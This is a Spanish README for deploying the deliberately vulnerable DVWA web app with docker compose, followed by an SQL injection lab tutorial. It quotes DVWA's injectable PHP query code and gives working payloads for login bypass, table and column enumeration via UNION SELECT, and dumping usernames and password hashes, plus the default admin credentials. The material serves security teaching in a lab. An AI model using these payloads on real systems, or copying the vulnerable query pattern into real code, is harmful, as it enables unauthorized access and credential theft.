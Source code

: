 # dvwa-docker-compose

- [Introducción](#introducción)
- [Cómo desplegar la aplicación](#cómo-desplegar-la-aplicación)
- [Credenciales por defecto](#credenciales-por-defecto)
- [Creación de la base de datos](#creación-de-la-base-de-datos)
- [Configuración del nivel de seguridad](#configuración-del-nivel-de-seguridad)
- [SQL Injection](#sql-injection)
  - [Ejemplo 1. Autenticación con SQL Injection](#ejemplo-1-autenticación-con-sql-injection)
  - [Ejemplo 2. SQL Injection](#ejemplo-2-sql-injection)
  - [Ejemplo 3. Obtener el listado de todas las tablas de la base de datos](#ejemplo-3-obtener-el-listado-de-todas-las-tablas-de-la-base-de-datos)
  - [Ejemplo 4. Obtener las columnas de la tabla `users`](#ejemplo-4-obtener-las-columnas-de-la-tabla-users)
  - [Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas](#ejemplo-5-obtener-el-listado-de-todos-los-usuarios-y-sus-contraseñas)
- [Blind SQL Injection](#blind-sql-injection)
- [Referencias](#referencias)

## Introducción

Este repositorio contiene un archivo `docker-compose.yml` para desplegar la
aplicación [Damn Vulnerable Web Application (DVWA)][1].

[DVWA][1] es una aplicación web desarrollada en PHP y MySQL que ha sido diseñada
con algunas de las vulnerabilidad más comunes que pueden aparecer en las
aplicaciones web.

Puede encontrar más información en el [repositorio oficial del proyecto DVWA][1].


## Cómo desplegar la aplicación

Para desplegar la aplicación ejecute el comando:

```
docker compose up -d
```

Para detener los contenedores:

```
docker compose down
```

Para detener los contenedores y eliminar el volumen de la base de datos:

```
docker compose down -v
```

## Credenciales por defecto

Las credenciales por defecto para acceder a la aplicación son:

- username: `admin`
- password: `password`

## Creación de la base de datos

La primera vez que acceda a la aplicación tendrá que crear la base datos
pulsando sobre el botón `Create / Reset Database`.

Este paso puede realizarlo en cualquier momento para eliminar la base de datos
actual y volver a crearla con los datos por defecto.

## Configuración del nivel de seguridad

La aplicación permite configurar el nivel de seguridad desde el apartado `DVWA Security` del menú principal.

Existen cuatro niveles de seguridad: `Low`, `Medium`, `High` y `Impossible`.

Los ejemplos que se muestran a continuación son para el nivel de seguridad `Low`.

## SQL Injection

De todos los tipos de vulnerabilidades que existen en la aplicación vamos a centrarnos en las de tipo [SQL Injection][2].

### Ejemplo 1. Hacer login sin conocer el password

En este ejemplo vamos a seleccionar la opción `Brute Force` del menú principal, donde nos aparecerá un formulario con dos campos: `username` y `password`.

Al final de la página nos aparece un botón con el texto `View Source` que nos permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir los parámetros del formulario y construir la consulta SQL es el siguiente:

```php
// Get username
$user = $_GET[ 'username' ];

// Get password
$pass = $_GET[ 'password' ];
$pass = md5( $pass );

$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```

Podemos hacer un ataque de tipo SQL Injection introduciendo el siguiente valor en el campo `username` del formulario:

```
admin' #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' #' AND password = ...
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será considerado como un comentario y no se ejecutará.

También puede comentar el resto de la consulta utilizando dos guiones **seguidos de un espacio**, por lo tanto, si enviamos el siguiente valor en el campo `username` del formulario también podríamos hacer un ataque de tipo SQL Injection:

```
admin' -- 
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT * FROM `users` WHERE user = 'admin' -- ' AND password = ...
```

## Ejemplo 2. Obtener el listado de todos los usuarios

En este ejemplo vamos a seleccionar la opción `SQL Injection` del menú principal, donde nos aparecerá un formulario con un campo para introducir el identificador de un usuario y buscarlo en la base de datos.

Al final de la página nos aparece un botón con el texto `View Source` que nos permite ver el código fuente de la página.

El código fuente que utiliza esta aplicación para recibir el parámetro del formulario y construir la consulta SQL es el siguiente:

```php
// Get input
$id = $_REQUEST[ 'id' ];
...
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Podemos hacer un ataque de tipo SQL Injection para obtener el listado de todos los usuarios que existen en la base de datos, introduciendo el siguiente valor en el campo `id` del formulario:

```
1' OR 1 = 1 #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base de datos será la siguiente:

```SQL
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1 = 1 #';
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será considerado como un comentario y no se ejecutará.

### Ejemplo 3. Obtener el listado de todas las tablas de la base de datos

```
' UNION SELECT table_name,NULL FROM information_schema.tables #
```

### Ejemplo 4. Obtener las columnas de la tabla `users`

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

### Ejemplo 5. Obtener el listado de todos los usuarios y sus contraseñas

```
' UNION SELECT user, password FROM users #
```

## Blind SQL Injection

_TODO: En progreso..._

## Referencias

- [Repositorio GitHub del proyecto DVWA][1]
- [SQL Injection][2]. Wikipedia.
- [SQL injection cheat sheet][3]. Invicty Security.
- [SQL Injection][4]. OWASP.
- [Bobby Tables: A guide to preventing SQL injection][5]
- [Blind SQL Injection][6]. OWASP.


[1]: https://github.com/digininja/DVWA
[2]: https://en.wikipedia.org/wiki/SQL_injection
[3]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[4]: https://owasp.org/www-community/attacks/SQL_Injection
[5]: https://bobby-tables.com 
[6]: https://owasp.org/www-community/attacks/Blind_SQL_Injection